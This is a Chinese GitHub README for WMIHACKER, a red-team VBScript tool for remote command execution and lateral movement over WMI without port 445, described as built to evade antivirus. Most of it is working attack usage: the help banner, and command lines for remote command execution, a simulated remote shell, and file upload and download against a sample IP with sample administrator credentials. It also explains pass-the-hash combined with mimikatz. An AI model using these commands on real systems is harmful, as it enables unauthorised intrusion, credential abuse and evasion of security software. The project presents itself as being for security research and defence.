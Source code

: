 # WMIHACKER(无需445端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

**联系我: _xiangshan(微信)**

免杀横向移动命令执行测试工具(无需445端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(无需445端口)

主要功能：1、命令执行；2、文件上传；3、文件下载；4、PTH使用

## 使用
合并[Issue 1](https://github.com/360-Linton-Lab/WMIHACKER/issues/1)里PTH的使用方法：

```vbscript
第54-58行代码：

if user = "-" And pass = "-" Then
set objWMIService = objLocator.connectserver(host,"root/cimv2")
Set SubobjSWbemServices = objLocator.ConnectServer(host, "root\subscription")
Set regWMIService = objLocator.ConnectServer(host, "root\default")

用户名和密码填“-”，结合mimikatz的PTH就可以进行WMI的PTH了。
```

```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `

## 404星链计划
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)
